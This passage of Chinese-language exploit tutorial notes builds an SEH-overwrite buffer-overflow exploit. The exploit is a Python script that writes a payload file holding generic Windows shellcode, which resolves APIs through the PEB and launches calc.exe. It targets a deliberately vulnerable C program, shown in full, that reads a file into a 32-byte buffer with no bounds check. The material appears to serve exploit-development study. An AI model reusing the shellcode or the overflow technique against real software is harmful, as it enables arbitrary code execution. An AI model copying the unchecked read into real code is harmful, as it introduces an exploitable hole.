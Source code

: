 ##### 测试exp

- `jmp 6`的二进制码是`EB 06`

```python
with open('D:\\Users\\czx\\NativeFiles\\Desktop\\tmp\\name.dat', 'wb') as f:
    shellcode = (b"\xe8\xff\xff\xff\xff\xc0\x5f\xb9\x11\x03\x02\x02\x81\xf1\x02\x02"+
        b"\x02\x02\x83\xc7\x1d\x33\xf6\xfc\x8a\x07\x3c\x02\x0f\x44\xc6\xaa"+
        b"\xe2\xf6\x55\x8b\xec\x83\xec\x0c\x56\x57\xb9\x7f\xc0\xb4\x7b\xe8"+
        b"\x55\x02\x02\x02\xb9\xe0\x53\x31\x4b\x8b\xf8\xe8\x49\x02\x02\x02"+
        b"\x8b\xf0\xc7\x45\xf4\x63\x61\x6c\x63\x6a\x05\x8d\x45\xf4\xc7\x45"+
        b"\xf8\x2e\x65\x78\x65\x50\xc6\x45\xfc\x02\xff\xd7\x6a\x02\xff\xd6"+
        b"\x5f\x33\xc0\x5e\x8b\xe5\x5d\xc3\x33\xd2\xeb\x10\xc1\xca\x0d\x3c"+
        b"\x61\x0f\xbe\xc0\x7c\x03\x83\xe8\x20\x03\xd0\x41\x8a\x01\x84\xc0"+
        b"\x75\xea\x8b\xc2\xc3\x8d\x41\xf8\xc3\x55\x8b\xec\x83\xec\x14\x53"+
        b"\x56\x57\x89\x4d\xf4\x64\xa1\x30\x02\x02\x02\x89\x45\xfc\x8b\x45"+
        b"\xfc\x8b\x40\x0c\x8b\x40\x14\x8b\xf8\x89\x45\xec\x8b\xcf\xe8\xd2"+
        b"\xff\xff\xff\x8b\x3f\x8b\x70\x18\x85\xf6\x74\x4f\x8b\x46\x3c\x8b"+
        b"\x5c\x30\x78\x85\xdb\x74\x44\x8b\x4c\x33\x0c\x03\xce\xe8\x96\xff"+
        b"\xff\xff\x8b\x4c\x33\x20\x89\x45\xf8\x03\xce\x33\xc0\x89\x4d\xf0"+
        b"\x89\x45\xfc\x39\x44\x33\x18\x76\x22\x8b\x0c\x81\x03\xce\xe8\x75"+
        b"\xff\xff\xff\x03\x45\xf8\x39\x45\xf4\x74\x1e\x8b\x45\xfc\x8b\x4d"+
        b"\xf0\x40\x89\x45\xfc\x3b\x44\x33\x18\x72\xde\x3b\x7d\xec\x75\x9c"+
        b"\x33\xc0\x5f\x5e\x5b\x8b\xe5\x5d\xc3\x8b\x4d\xfc\x8b\x44\x33\x24"+
        b"\x8d\x04\x48\x0f\xb7\x0c\x30\x8b\x44\x33\x1c\x8d\x04\x88\x8b\x04"+
        b"\x30\x03\xc6\xeb\xdd")
    jmp_6 = b'\xeb\x06'
    seh = b'\x11\x1a\x40\x00'
    payload = b'a'*(212-4) + jmp_6 + b'a'*2  + seh + shellcode + b"a"*3000
    f.write(payload)
```

`windbg`下运行，结果如图：

![access-violation-in-shellcode](../pic/Exploitme-Cookie/access-violation-in-shellcode.png)

`seh`所在位置与栈底之间的距离，虽然可以装得下`shellcode`，但满足不了`shellcode`执行过程中所需。

##### 最终exp

我们可以把 `shellcode` 放到靠前（距离栈底较远的位置），然后跳转过去。

我们的`shellcode`长度为 309。因此我们需要修改一下程序源码，以保证栈空间足够存放`shellcode`。

Exploitme.c

```c
#include <cstdio>

_declspec(noinline) int old_main() {
    char name[32];
    printf("Reading name from file...\n");

    FILE* f = fopen("D:\\Users\\czx\\NativeFiles\\Desktop\\tmp\\name.dat", "rb");
        if (!f)
            return -1;
    fseek(f, 0L, SEEK_END);
    long bytes = ftell(f);
    fseek(f, 0L, SEEK_SET);
    fread(name, 1, bytes, f);
    *(name+bytes) = '\0';
    fclose(f);
    printf("Hi, %s!\n", name);
    return 0;
}

#pragma optimize( "", off )
```